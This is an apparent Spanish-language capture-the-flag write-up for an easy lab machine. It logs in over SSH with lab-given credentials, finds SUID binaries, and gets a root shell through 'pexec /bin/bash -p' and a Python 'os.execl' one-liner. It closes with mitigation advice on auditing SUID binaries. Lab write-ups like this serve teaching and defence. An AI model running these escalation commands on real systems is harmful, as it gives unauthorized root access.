






## Información General

|Campo|Valor|
|---|---|
|**Plataforma**|whoami-labs|
|**Dificultad**|Fácil|
|**Autor**|elc0ket|

---

## Fase 1: Acceso Inicial

Las credenciales se proporcionan directamente en el laboratorio:

- **Usuario:** `hacker`
- **Contraseña:** `suid2025`

```bash
ssh-keygen -f '/home/kali/.ssh/known_hosts' -R '172.17.0.2'
ssh hacker@172.17.0.2
```



```
hacker@bec55ccaa8b2:~$ whoami
```



---

## Fase 2: Reconocimiento — Búsqueda de binarios SUID

Buscamos binarios con el bit SUID activo. Estos se ejecutan con los privilegios de su propietario (normalmente root), independientemente de quién los invoque.

```bash
find / -perm -4000 -type f 2>/dev/null
```



Dos binarios destacan inmediatamente por ser no estándar: `/usr/local/bin/python3_suid` y `/usr/local/bin/pexec`. Ambos tienen el bit SUID activo con propietario root, lo que los convierte en vectores de escalada de privilegios.

---

## Fase 3: Escalada de Privilegios

### Vector 1 — pexec

`pexec` es un ejecutor de procesos que, al tener el bit SUID activo, lanza el proceso especificado heredando los privilegios de root. El flag `-p` preserva el UID efectivo en bash.

```bash
/usr/local/bin/pexec /bin/bash -p
```

```
root@289896a8a273:~# whoami
```



### Vector 2 — python3_suid (alternativo)

`python3_suid` es una copia del intérprete Python con SUID activo. Desde Python podemos llamar directamente a funciones del sistema operativo para reemplazar el proceso actual por una shell con privilegios elevados.

```bash
/usr/local/bin/python3_suid -c 'import os;os.execl("/bin/bash","bash","-p")'
```

```
root@289896a8a273:~# whoami
```



`os.execv` reemplaza el proceso Python por `/bin/bash` manteniendo el UID efectivo de root heredado del binario SUID.

---

## Fase 4: Captura de las flags

```bash
cd /root
ls
cat *
```



---

## Conclusión

|Vector|Binario|Técnica|
|---|---|---|
|1|`/usr/local/bin/pexec`|Ejecutor de procesos SUID → `bash -p`|
|2|`/usr/local/bin/python3_suid`|Intérprete Python SUID → `os.execv`|

### ¿Por qué funcionan?

Ambos binarios tienen el bit SUID activo con propietario `root`. Cualquier binario en esa situación que permita ejecutar código arbitrario o lanzar subprocesos es un vector de escalada. El flag `-p` en bash y `os.execv` en Python son la clave para que la shell resultante conserve el UID efectivo elevado en lugar de rebajarlo al usuario real.

### Mitigación

- Auditar regularmente binarios SUID: `find / -perm -4000 -type f 2>/dev/null`
- Nunca asignar SUID a intérpretes (Python, Perl, Ruby) ni a ejecutores genéricos de procesos.
- Revisar [GTFOBins](https://gtfobins.github.io/) para conocer el riesgo de cada binario con SUID.